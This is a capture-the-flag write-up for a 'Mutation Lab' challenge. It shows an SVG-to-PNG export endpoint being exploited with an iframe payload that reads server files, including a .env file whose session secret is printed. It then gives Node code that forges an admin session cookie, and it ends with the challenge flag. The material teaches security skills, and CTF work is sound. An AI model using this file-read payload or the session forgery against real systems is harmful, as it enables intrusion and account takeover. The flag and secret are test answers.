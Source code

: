 # Mutation Lab

```
One of the renowned scientists in the research of cell mutation, Dr. Rick, was a close ally of Draeger. The by-products of his research, the mutant army wrecked a lot of havoc during the energy-crisis war. To exterminate the leftover mutants that now roam over the abandoned areas on the planet Vinyr, we need to acquire the cell structures produced in Dr. Rick's mutation lab. Ulysses managed to find a remote portal with minimal access to Dr. Rick's virtual lab. Can you help him uncover the experimentations of the wicked scientist?
```

The main feature seems to be exporting a svg to a png, we see this from the body of a POST request to /api/export

```json
{
  "svg":"<svg version=\"1.1\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" width=\"400\" height=\"400\" viewBox=\"0,0,400,400\"><g fill=\"none\" fill-rule=\"nonzero\" stroke=\"none\" stroke-width=\"none\" stroke-linecap=\"none\" stroke-linejoin=\"miter\" stroke-miterlimit=\"10\" stroke-dasharray=\"\" stroke-dashoffset=\"0\" font-family=\"none\" font-weight=\"none\" font-size=\"none\" text-anchor=\"none\" style=\"mix-blend-mode: normal\"><path d=\"M200.50969,360c-5.27079,-20....... etc"
}
```

I know from the server header `X-Powered-By: Express` it is running on node, so I searched for libraries that do svg to png conversion with vulnerabilities, and I found this

https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGTOPNG-2348244

I found a poc payload

```json
{
    "svg":"<svg-dummy></svg-dummy><iframe src=\"file:///app/routes/index.js\" width=\"100%\" height=\"3000px\"></iframe><svg viewBox=\"0 0 240 80\" height=\"3000\" width=\"1000\" xmlns=\"http://www.w3.org/2000/svg\"><text x=\"0\" y=\"0\" class=\"Rrrrr\" id=\"demo\">data</text></svg>"
}
```

this leaks the file in the produced png. Using the file structure from previous challenges I guessed at the source code paths, finding:

file leaks
```js
/app/routes/index.js
/app/database.js
/app/index.js
/app/.env
```

last one gives session secret

SESSION_SECRET_KEY=5921719c3037662e94250307ec5ed1db


we can now forge a session and valid signature using the secret. Run this locally to generate the cookie.

```js
var cookieSession = require('cookie-session')
var express = require('express')

var app = express()

app.use(cookieSession({
  name: 'session',
  keys: ['5921719c3037662e94250307ec5ed1db']
}))

app.get('/', function (req, res, next) {
  // Update views
  req.session.username = 'admin'

  // Write response
  res.send('Hello World');
})


var server = app.listen(8081, function () {
  var host = server.address().address
  var port = server.address().port
  
  console.log("Example app listening at http://%s:%s", host, port)
})
```


go to localhost:8081/

copy the cookies and paste them into the devtools for mutation lab

now you have a valid session for admin and can see the flag

HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}